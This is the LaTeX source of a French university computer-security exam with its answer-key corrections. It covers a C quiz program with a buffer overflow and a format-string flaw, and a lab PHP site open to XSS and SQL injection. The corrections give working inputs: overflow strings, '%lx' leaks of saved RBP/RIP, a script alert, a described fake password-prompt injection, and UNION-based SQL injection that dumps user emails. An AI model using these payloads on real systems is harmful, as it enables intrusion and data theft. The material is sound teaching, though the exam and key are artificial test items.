\documentclass[a4paper,9pt]{article}

\usepackage{fullpage}
\usepackage[utf8]{inputenc}
\usepackage{amsmath,amsthm}
\usepackage{amsfonts}
%\usepackage{algorithm}
\usepackage{graphicx}
%\usepackage[compatible,noend]{algpseudocode}
\usepackage{latexsym}
\usepackage{float,color}
\usepackage{xcolor}
\usepackage{framed}
\usepackage{listings}
\usepackage{comment}

\definecolor{shadecolor}{RGB}{190,190,190}


\newenvironment{terminal}{\color{black}\begin{snugshade*}}
{\end{snugshade*}\color{black}}


%%%%%%%%%%%%%%% COMMANDES %%%%%%%%%%%%%%%%%%%%%%%%%%
\newcommand{\Fd}{\mathbb{F}}
\newcommand{\Znat}{\mathbb{Z}}
\newcommand{\Nnat}{\mathbb{N}}
\newcommand{\pgcd}{\mbox{pgcd}}

%%%%%%%%%%%%%%% ENVIRONEMENTS %%%%%%%%%%%%%%%%%%%%%%%
\theoremstyle{plain}
\newtheorem{lemme}{Lemme}
\newtheorem{algorithme}{ Algorithme }
\newtheorem{corolaire}{Corollaire}
\newtheorem{propriete}{Propri\'et\'e}
\newtheorem{proposition}{Proposition}
\newtheorem{theoreme} {Th\'eor\`eme}
\newtheorem{definition}{D\'efinition}

\theoremstyle{definition}
\newtheorem{exercice}{Exercice}
%\theoremstyle{remark}
\newtheorem{remarque}{Remarque}
\newtheorem{exemple}{Exemple}
%\newtheorem*{correction}{Correction}
\excludecomment{correction}

%%%%%%%%%%%%%%%%%

\definecolor{mGreen}{rgb}{0,0.6,0}
\definecolor{mGray}{rgb}{0.5,0.5,0.5}
\definecolor{mPurple}{rgb}{0.58,0,0.82}
\definecolor{backgroundColour}{rgb}{0.85,0.85,0.85}


\lstdefinestyle{CStyle}{
    backgroundcolor=\color{backgroundColour},   
    commentstyle=\color{mGreen},
    keywordstyle=\color{magenta},
    numberstyle=\tiny\color{mGray},
    stringstyle=\color{mPurple},
    basicstyle=\footnotesize,
    breakatwhitespace=false,         
    breaklines=true,                 
    captionpos=b,                    
    keepspaces=true,                 
    numbers=left,                    
    numbersep=5pt,                  
    showspaces=false,                
    showstringspaces=false,
    showtabs=false,                  
    tabsize=2,
    language=C
}





%%%%%%%%%%%%%% DOCUMENTS %%%%%%%%%%%%%%%%%%%%%%%%%%%%


\begin{document}


\hbox{\raisebox{0.4em}{\vrule depth 0pt height 0.5pt width \textwidth}}
\noindent \textbf{Université de Perpignan} \hfill  Année \the\year \\
Licence 3 Informatique \hfill C. Legrand \\

\begin{center}
  {  {\scshape \large Contrôle Terminal  } \\
    \vrule depth 0pt height 0.5pt width 1cm
    \medskip
    
{\scshape    S\'ecurit\'e Informatique}  \\
}
\end{center}
\hbox{\raisebox{0.4em}{\vrule depth 0pt height 0.5pt width \textwidth}}

\bigskip

\textbf{Recommandations:}
\begin{itemize}
  \item Durée : 2 heures.
  \item Seuls les documents fournis sont autorisés. 
\item Vous rendrez un fichier numérique contenant les réponses aux questions, je dois pouvoir copier-coller vos entrées pour les tester lors de la correction. 

\item Pour l'exercice 1, vous donnerez les sorties du terminal que vous obtenez. Je tiendrai compte des réponses non totalement fonctionnelle, mais donnez des explications !
%\item Pour l'exercice 2, les fichiers du site web sont dans le répertoire \verb|web| sur le bureau de la machine virtuelle. Notez qu'il faut que vous chargiez la base de données (faire \verb|source bd.sql|). Pour se loguer dans sql faire \verb|mysql -u l2info -p| dans le terminal et sélectionner la base de données l2info. 

\end{itemize}



\begin{exercice}
On considère le code \texttt{quizz.c} qui implémente un jeu de quizz de culture générale. Une série de 5 questions sont posées et le score du joueur augmente de 10 si il répond correctement aux 5 questions. Vous avez ci-dessous la fonction \verb|ask_questions| qui pose 5 questions aléatoirement. L'exécutable \verb|quizz| a été compilé avec les options \verb|-g -fno-stack-protector -no-pie|.


\begin{terminal}
\begin{verbatim}
int ask_questions() {

  int correct=0;
  int i;
  int k;
  char asw[32];
  
  for(i=n;i>0;i--)
    {  
      k=((unsigned int) rand());
      printf("%s\n",questions[k & 63]);
      printf("answer:");
      
      gets(asw);
      
      if( strcasestr(asw,correct_answers[k & 63]) != NULL )
        {
          printf("Yes! good answer\n");          
          correct++;
        }
      else
        {
          printf(asw);
          printf("is not correct!");
          printf("the answer was : '%s'\n",correct_answers[k & 63]);          
        }
    }
  return(correct);
}
\end{verbatim}
\end{terminal}
\begin{enumerate}
\item Analysez l'exécutable \verb|quizz| et expliquez comment sont organisées en mémoire les variables locales de la fonction \verb|ask_questions|. 
\item  Proposez un débordement (uniquement sur les variables locales de la fonction \verb|ask_questions|) qui vous assure que les  réponses soit considérées comme correctes à au moins 4 questions sur les 5 premières questions et à toutes les questions pour tous les groupes de 5 questions qui suivent.
\item Expliquez comment connaître les valeurs de SavedRIP et SavedRBP. Expliquez comment en déduire les adresses du début des codes des fonctions \verb|main| et \verb|ask_questions|. 

\item Expliquez  comment revenir après l'appel à \verb|ask_questions| directement sur l'instruction \verb|score+=10| du \verb|main|, tout en s'assurant que la base de la pile soit valide. 
%\item Si l'on compile sans l'option \verb|no-pie| (l'exécutable \verb|quizz1| a été exécuté sans le  \verb|no-pie|.  Proposez une méthode qui vous permet de faire un etour dans le main à l'instruction \verb|score+=10| et qui ne provoque pas de \verb|segfault|.
\end{enumerate}
\end{exercice}


\begin{correction}
\begin{enumerate}
\item On analyse le début code assembleur de la fonction \verb|ask_questions| avec \verb|gdb|, jusqu'à l'appel à \verb|gets|:
\begin{terminal}
\begin{verbatim}
  0x0000000000002249 <+0>:     endbr64 
   0x000000000000224d <+4>:     push   rbp
   0x000000000000224e <+5>:     mov    rbp,rsp
   0x0000000000002251 <+8>:     sub    rsp,0x30
   0x0000000000002255 <+12>:    mov    DWORD PTR [rbp-0x4],0x0  // score
   0x000000000000225c <+19>:    mov    DWORD PTR [rbp-0x8],0x5  // i
   0x0000000000002263 <+26>:    jmp    0x234f <ask_questions+262>
   0x0000000000002268 <+31>:    call   0x2150 <rand@plt>   // appel à rand
   0x000000000000226d <+36>:    mov    DWORD PTR [rbp-0xc],eax  // recupère la valeur retour de rand (k)
   0x0000000000002270 <+39>:    mov    eax,DWORD PTR [rbp-0xc]
   0x0000000000002273 <+42>:    and    eax,0x3f
   0x0000000000002276 <+45>:    cdqe   
   0x0000000000002278 <+47>:    lea    rdx,[rax*8+0x0]
   0x0000000000002280 <+55>:    lea    rax,[rip+0x3d99]        # 0x6020 <questions>
   0x0000000000002287 <+62>:    mov    rax,QWORD PTR [rdx+rax*1]
   0x000000000000228b <+66>:    mov    rdi,rax
   0x000000000000228e <+69>:    call   0x20d0 <puts@plt>
   0x0000000000002293 <+74>:    lea    rdi,[rip+0x1ad7]        # 0x3d71
   0x000000000000229a <+81>:    mov    eax,0x0
   0x000000000000229f <+86>:    call   0x20e0 <printf@plt>
   0x00000000000022a4 <+91>:    lea    rax,[rbp-0x30]  // paramètre de gets (asw) 
   0x00000000000022a8 <+95>:    mov    rdi,rax
   0x00000000000022ab <+98>:    mov    eax,0x0
   0x00000000000022b0 <+103>:   call   0x2120 <gets@plt> // appel à gets
   ...
\end{verbatim}
\end{terminal}
On en déduit que: 
\begin{itemize}
\item $correct$ est à la place \verb|rbp-4|
\item $i$ est à la place \verb|rbp-8|
\item $k$ est à la place \verb|rbp-12|
\item \verb|asw| commence à \verb|rbp-48| (i.e., \verb|rbp-0x30|)
\end{itemize}


\item On peut faire un débordement de tampon pour fixer la valeur de $k$ (la question apparente est celle tirée aléatoirement, mais lors de la vérification, c'est le $k$ modifié qui sera utilisé). Il faut remplir le tableau \verb|asw| de 32 caractères et puis mettre un \verb|'\0'| pour avoir \verb|k=0| ou un \verb|'!'| pour avoir \verb|k=33|. Ensuite il faut repondre à la question. 
Voici un exemple d'exploit:
\begin{terminal}
\begin{verbatim}
ready? Type enter to proceed to the questions:
Who was the first president of the United States?
answer:!!!-!!!-!!!-!!!-!!!!
!!!-!!!-!!!-!!!-!!!!is not correct!the answer was : 'George Washington'
What is the capital of Japan?
answer:!!!-!!!-!!!-!!!-!!!-!!!-!!!-!!!-!!!!
!!!-!!!-!!!-!!!-!!!-!!!-!!!-!!!-!!!!is not correct!the answer was : 'Leonardo da Vinci'
What is the chemical formula for water?
answer:Leonardo da Vinci-------------------
Yes! good answer
What is the capital of Spain?
answer:Leonardo da Vinci-------------------
Yes! good answer
What is the chemical symbol for gold?
answer:Leonardo da Vinci-------------------
Yes! good answer
Do you want to play another time  ? (1=yes/0=no):
1                                   
ready? Type enter to proceed to the questions:
Which animal is known for its ability to change colors?
answer:Leonardo da Vinci-------------------
Yes! good answer
Who is known as the Father of India?
answer:Leonardo da Vinci-------------------
Yes! good answer
Which continent is the Sahara Desert located on?
answer:Leonardo da Vinci-------------------
Yes! good answer
What is the capital of Japan?
answer:Leonardo da Vinci-------------------
Yes! good answer
Which sea is the saltiest in the world?
answer:Leonardo da Vinci-------------------
Yes! good answer
Do you want to play another time  ? (1=yes/0=no):
0
Your final score is 10 
\end{verbatim}
\end{terminal}


\item Pour connaître les valeurs de SavedRIP et SavedRBP, il suffit d'utiliser 
le printf(asw), et d'insérer une chaine de format du type \verb|"%lx%lx...%lx"|, assez longue (nombre de registre + 48/8 $\sim$ 12). On voit apparaitre les code ascii \verb|25,6C,78| des caractères \verb|%lx| et à la suite on verra rbp et rip.


Voilà ce que l'on obtient avec l'option \verb|no-pie| activée:
\begin{terminal}
\begin{scriptsize}
\begin{verbatim}
cedric@clegrand-OptiPlex-990:~/Desktop/TempCode/Securite/2024-2025/CT$ ./a.out 
0x7ffda9145ec7
We will ask you a batch of  5 questions. Try to give correct answers
What is the largest mammal in the world?
answer:%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx-%lx-%lx-%lx-%lx
2070402c446796c25786c25786c2525786c25786c2578786c25786c25786c252d786c25786c25252d786c252d786c-786c252d786c-7ffda9145ed0-401386-4f007ffda9145fc0is not correct!the answer was : 'Mercury'
Do you want to play another time  ? (O/N):
\end{verbatim}
\end{scriptsize}
\end{terminal}
Dans l'exemple ci-dessus \verb|7ffda9145ed| est la valeur de SavedRBP et \verb|401386| est la valeur de SavedRIP (qui correspond à l'adresse de retour de \verb|ask_questions|.

Si on fait la même expérience sans l'option  \verb|no-pie| activée on a 
\begin{scriptsize}
\begin{verbatim}
We will ask you a batch of  5 questions. Try to give correct answers
Which animal is known for its ability to change colors?
answer:%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx-%lx-%lx-%lx-%l
207055aa2ec5ec446796c25786c25786c2525786c25786c2578786c25786c25786c252d786c25786c25252d786c252d786c-6c252d786c-7ffd69e245e0-55aa2ec5d3a0-is not correct!the answer was : 'Mercury'
Who discovered penicillin?
answer:
\end{verbatim}
\end{scriptsize}
On voit apparaitre l'adresse de SavedRBP juste apres les code  asci des \verb|%lx| qui vaut \verb|7ffd69e245e0|.
On voit apparaître au même endroit que la question précédente l'adresse  \verb|55aa2ec5d3a0| qui est l'adresse de retour dans le main (avec l'offset random de l'exécution). On en déduit l'adresse de \verb|main| en soustrayant 67. Celle de \verb|ask_questions| est décalée de 
\verb|0x000000000000233e- 0x0000000000002229| par rapport au main. Ce qui donne 

\begin{verbatim}
main = 55aa2ec5d33e
askquestions = 55aa2ec5d229
\end{verbatim}
\item Rapidement: il faut
\begin{itemize}
\item faire un débordement de tampon afin de changer savedrip en la nouvelle valeur. On s'assure que la valeur de i reste > 0 (on met par exemple '!!!!').
\item L'indice i devient un entier très grand. On fait un seconde débordment pour mettre un 0 à l'octet de poids for de SavedRBP.
\item  On fait un troisieme débordment pour mettre les autres octets de SavdRBP (on suppose qu'il y 6 octets non nuls, sinon il faut pour chaque octet nul faire un débordement).
\item Ensuite on fait 4 débordement pour mettre octet par octet la valeur de i à 0.
\end{itemize}

Pour réaliser l'exploit, la difficulté technique est de faire passer les valeurs (calculée dynamiquement en fonction de la sortie de\verb|%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx-%lx-%lx-%lx-%l|. C'est le problème à résoudre. 
\end{enumerate}
\end{correction}



\begin{exercice}
  Les fichiers du site web sont dans le répertoire \verb|web| sur le bureau de la machine virtuelle. Notez qu'il faut que vous chargiez la base de données (faire \verb|source bd.sql|). Pour se loguer dans sql faire \verb|mysql -u l2info -p| dans le terminal et sélectionner la base de données l2info. 

%Sur la machine virtuelle vous devez mettre les fichiers dans le répertoire \verb|web| qui se trouve sur le bureau. 

On considère d'abord la page web \verb|http:/localhost/web/page-image.php?user=Alice| qui affiche les images de l'utilisteur Alice et des commentaires des autres utilisateurs. Vous avez un aperçu ci-dessous
\begin{center}

\includegraphics[width=10cm]{page-web-images.jpg}
\end{center}
\begin{enumerate}
\item Expliquez comment faire apparaître une fenêtre de type alert dans la page.
\item Expliquez comment faire apparaître un élément qui demande de rerentrer un mot de passe et de le transmettre via  un bouton de soumission. 
\begin{center}

\includegraphics[width=10cm]{exploit-div.jpg}
\end{center}
Notez que vous pouvez utiliser le style \verb|.alerte| déjà présent dans cette page pour cet exploit.
\item Expliquez comment rentrez un commentaire avec un login invalide. Expliquez ce qui sera affiché sur la page suite à cet exploit.
\item On considère maintenant la page web \verb|http:/localhost/web/liste-commentaires.php| qui permet de lister tous les commentaires postés par un des utilisateurs. Vous avez un aperçu ci-dessous:
\begin{center}

\includegraphics[width=10cm]{page-web-commentaires.jpg}
\end{center}
  Expliquez comment afficher la liste des emails de tous les utilisateurs à la place des commentaires. 
\end{enumerate}
\end{exercice}

\begin{correction}
  \begin{enumerate}
  \item Il suffit de rentrer \verb|<script> alert('Youhou') </script>|.
  \item Il faut rentrer un code javascript qui permet d'ajouter un élément div au document. On lui affecte la classe  \verb|alerte|. Ensuite on crée deux inputs: un pour le texte, et un pour le bouton. Ca donne le résultat voulu. 
    
  \item %Expliquez comment rentrez un commentaire avec un login non valide. Expliquez ce qui est afficher dans la page web suit à votre exploit. 
    Il faut rendre valide l'entrée en ajoutant un OR '1'='1' après le login invalide afin de forcer. Par exemple on rentre:  \verb|XXX' OR '1'='1| dans le login et 'ha ha ha ha' dans le message on obtient:
\begin{center}

\includegraphics[width=10cm]{exploit-login.jpg}
\end{center}
Ce que l'on remarque c'est que c'est Alice à qui est attribué le message: lorsque l'on insère le commentaire, la requete  \verb|SELECT * FROM Users WHERE Users.login='$login'| donnera tous les utilisateurss à cause du 1=1. Et ensuite on fait
\begin{verbatim}
$ligne=mysqli_fetch_array( $result1 );
\end{verbatim}
pour avoir l'id du user qui a rentré le commentaire, donc ici ca sera le premier id de la table user c'est à dire 0 celui d'Alice!

  \item Il faut que le login soit non valide de façon à ce qu'aucun commentaire ne soit affiché et faire une Union pour sélectionner une autre base:
\begin{verbatim}
  baba' UNION SELECT email,'2025-04-17' FROM Users WHERE '1'='1
\end{verbatim}
qui donne:
\begin{center}

\includegraphics[width=10cm]{exploit-emails.jpg}
\end{center}

    \end{enumerate}
\end{correction}



\end{document}
